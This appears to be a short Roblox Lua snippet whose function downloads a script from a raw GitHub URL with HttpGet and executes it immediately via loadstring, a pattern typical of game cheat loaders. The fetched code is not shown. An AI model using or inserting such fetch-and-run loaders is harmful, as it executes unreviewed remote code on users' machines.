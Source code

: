 local function runScript(url)
    loadstring(game:HttpGet(url))()
end

local co1 = coroutine.create(runScript)
local co2 = coroutine.create(runScript)

coroutine.resume(co1, "https://raw.githubusercontent.com/PresidentZuyi/Hell/refs/heads/main/D")
